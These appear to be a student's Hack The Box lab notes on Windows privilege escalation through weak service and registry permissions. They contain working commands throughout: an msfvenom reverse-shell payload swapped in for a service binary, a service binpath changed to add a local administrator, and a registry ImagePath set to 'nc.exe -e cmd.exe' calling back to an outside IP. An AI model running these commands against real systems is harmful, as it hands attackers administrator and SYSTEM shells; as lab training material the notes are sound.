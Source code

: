 ## Check for service binaries suffering from weak ACLs.
```
https://github.com/GhostPack/SharpUp/
```
```
PS C:\htb> .\SharpUp.exe audit
```
2. Check the DisplayName and the PathName; In our example, The tool identifies the PC Security Management Service, which executes the SecurityService.exe binary when started.
3. Checking Permissions with icacls
```
PS C:\htb> icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```
EVERYONE and BUILTIN\Users groups have been granted full permissions to the directory, and therefore any unprivileged system user can manipulate the directory and its contents.
## Replacing Service Binary
1. Generate payload using msfvenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.211 LPORT=8443 -f exe > SecurityService.exe
```
2. Transfer the payload
3. Replacing Service Binary
```
C:\htb> cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```
4. Start netcat listener
```
nc -lvnp 8443
```
5. start the service
```
C:\htb> sc start SecurityService
```
6. Elevated reverse shell obtained
## Reviewing sharpup again, we see the WindscribeService is potentially misconfigured. 
### Checking Permissions with AccessChk
```
C:\htb> accesschk.exe /accepteula -quvcw WindscribeService
```
1. Here we can see that all Authenticated Users have SERVICE_ALL_ACCESS rights over the service, which means full read/write control over it.
2. Changing the Service Binary Path: We can use our permissions to change the binary path maliciously. Let's change it to add our user to the local administrator group. 
```
C:\htb> sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
```
3. Stopping Service
```
C:\htb> sc stop WindscribeService
```
4. Starting the Service
```
C:\htb> sc start WindscribeService
```
5. Confirming Local Admin Group Addition
```
net localgroup administrators
```
### Weak Service Permissions - Cleanup
```
C:\htb> sc config WindScribeService binpath="c:\Program Files (x86)\Windscribe\WindscribeService.exe"
```
Starting the Service Again
```
C:\htb> sc start WindScribeService
```
Verifying Service is Running
```
C:\htb> sc query WindScribeService
```
## Unquoted Service Path
When a service is installed, the registry configuration specifies a path to the binary that should be executed on service start. If this binary is not encapsulated within quotes, Windows will attempt to locate the binary in different folders
If we can create the following files, we would be able to hijack the service binary and gain command execution in the context of the service, in this case, NT AUTHORITY\SYSTEM
### Searching for Unquoted Service Paths
```
C:\htb> wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v ""
```
## Permissive Registry ACLs
### Checking for Weak Service ACLs in Registry
```
C:\htb> accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services
```
In our example, we got the following result
```
RW HKLM\System\CurrentControlSet\services\ModelManagerService
```
Changing ImagePath with PowerShell
```
Transfer nc.exe to the target host
```
```
PS C:\htb> Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```
## Modifiable Registry Autorun Binary
Check Startup Programs
We can use WMIC to see what programs run at system startup. Suppose we have write permissions to the registry for a given binary or can overwrite a binary listed. In that case, we may be able to escalate privileges to another user the next time that the user logs in.
```
PS C:\htb> Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```